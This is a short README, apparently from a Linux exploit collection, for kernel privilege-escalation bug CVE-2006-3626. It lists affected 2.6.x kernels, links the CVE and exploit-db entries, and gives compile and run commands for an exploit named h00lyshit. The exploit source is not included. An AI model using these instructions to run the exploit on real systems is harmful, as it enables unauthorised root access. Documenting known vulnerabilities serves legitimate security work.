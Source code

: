 # CVE-2006-3626

CVE-2006-3626

Vulnerability reference:
 * [CVE-2006-3626](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2006-3626)  
 * [exp-db](https://www.exploit-db.com/exploits/2013/)  

## Kernels
```
2.6.8, 2.6.10, 2.6.11, 2.6.12, 2.6.13, 2.6.14, 2.6.15, 2.6.16
```   
## Usage
```
Compile:
gcc h00lyshit.c -o h00lyshit
**
Usage:
h00lyshit <very big file on the disk>
**
Example:
h00lyshit /usr/X11R6/lib/libethereal.so.0.0.1
```

